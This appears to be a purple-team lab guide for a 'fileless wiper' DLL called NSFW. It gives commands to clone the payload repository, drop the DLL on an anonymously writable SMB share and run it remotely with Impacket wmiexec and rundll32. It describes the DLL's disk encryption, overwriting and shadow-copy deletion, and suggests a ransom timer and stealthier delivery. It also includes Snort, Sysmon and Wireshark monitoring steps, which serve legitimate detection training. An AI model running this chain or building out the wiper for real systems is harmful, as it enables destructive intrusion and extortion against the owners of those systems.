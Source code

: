 

## 🧱 1. LAB STRUCTURE OVERVIEW

| Role       | System               | IP Example               | Key Tools                                      |
| ---------- | -------------------- | ------------------------ | ---------------------------------------------- |
| Attacker   | Win 11 + WSL2 Ubuntu | `192.168.1.100`          | `Impacket`, `smbclient`, `rundll32`, `wmiexec` |
| Target     | Windows 11 VM        | `192.168.1.101`          | `Sysmon`, `Wireshark`, `Snort`, `Defender`     |
| Shared SMB | Target file share    | `\\192.168.1.101\shared` | DLL drop location                              |

---

## 🔧 2. ATTACKER SETUP (WSL2 Ubuntu)

### ➤ Install Dependencies

```bash
sudo apt update && sudo apt install -y smbclient python3-pip git crackmapexec wine
pip install impacket
```

### ➤ Clone the Payload Repo (NSFW)

```bash
git clone --branch purpleboi https://github.com/P1rat3R00t/NSFW ~/nsfw_lab
```

> 💡 The DLL payload (`nsfw.dll`) is located in `~/nsfw_lab/bin/nsfw.dll`.

---

## 📁 3. TARGET SYSTEM SETUP (Windows 11 VM)

### ➤ A. Create and Share a Folder

1. Make a folder: `C:\shared`
2. Right-click → Properties → Sharing tab → Advanced Sharing → Share as `shared`.
3. Set permissions: Allow **Everyone** to read/write.

### ➤ B. Enable Remote Access (for WMI or WinRM)

* Enable PowerShell remoting:

```powershell
Enable-PSRemoting -Force
```

### ➤ C. Install Sysmon for Logging

* Download: [https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
* Config:

```powershell
curl -LJO https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml
Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

---

## 📡 4. DLL TRANSFER AND EXECUTION

### ➤ A. Upload DLL via SMB

```bash
smbclient //192.168.1.101/shared -N -c "put ~/nsfw_lab/bin/nsfw.dll"
```

> **T1135 – Network Share Discovery**
> **T1021.002 – SMB/Windows Admin Shares**

### ➤ B. Trigger DLL via WMIExec

```bash
python3 -m impacket.examples.wmiexec Administrator@192.168.1.101 "rundll32 \\192.168.1.101\shared\nsfw.dll,EntryPoint"
```

> **T1218.011 – Rundll32 Execution**
> **T1112 – Registry Modification** (if persistence logic is added)

---

## 🔍 5. DEFENSIVE MONITORING (BLUE TEAM)

### ➤ A. Install Snort (Optional)

* Download: [https://www.snort.org/downloads](https://www.snort.org/downloads)
* Example rule for DLL over SMB:

```snort
alert tcp any any -> any 445 (msg:"DLL Upload Detected over SMB"; content:".dll"; nocase; sid:1000001; rev:1;)
```

### ➤ B. Install Wireshark

* Download: [https://www.wireshark.org/download.html](https://www.wireshark.org/download.html)
* Filter traffic:

```
smb || dns || http || tcp.port == 445
```

### ➤ C. Monitor with Sysmon

* View logs: `Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational`
* Key Event IDs:

  * **1** – Process Creation
  * **3** – Network Connection
  * **7** – Image Load (DLL)
  * **11** – File Created
  * **13** – Registry Modification

### ➤ D. Enable Script Block Logging

```powershell
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging -Name EnableScriptBlockLogging -Value 1
```

---

## 💥 6. WIPER PAYLOAD BEHAVIOR (DLL)

* Memory-resident execution
* XTS-AES encryption (DiskCryptor base)
* PRNG overwrite for redundancy
* Shadow copy and log deletion (if triggered)
* No disk footprint post-execution

---

## 🧠 7. MITRE ATT\&CK NAVIGATOR LAYER

Create a `.json` file and import at [https://mitre-attack.github.io/attack-navigator/](https://mitre-attack.github.io/attack-navigator/)

```json
{
  "version": "4.3",
  "name": "NSFW Fileless Wiper",
  "domain": "enterprise-attack",
  "description": "Fileless DLL attack over SMB using rundll32 and memory-only encryption.",
  "techniques": [
    { "techniqueID": "T1135", "tactic": "discovery", "score": 1 },
    { "techniqueID": "T1021.002", "tactic": "lateral-movement", "score": 1 },
    { "techniqueID": "T1218.011", "tactic": "defense-evasion", "score": 1 },
    { "techniqueID": "T1485", "tactic": "impact", "score": 1 },
    { "techniqueID": "T1112", "tactic": "persistence", "score": 0.5 }
  ]
}
```

---

## 🔐 8. OPTIONAL EXTENSIONS

* ✅ Add ransom timer + note in the DLL (PowerShell or .NET triggered)
* ✅ Integrate logging into ELK/Splunk/OpenSearch
* ✅ Deploy via `.lnk` or `regsvr32` for stealth variants
* ✅ Monitor entropy shifts on disk via custom scripts



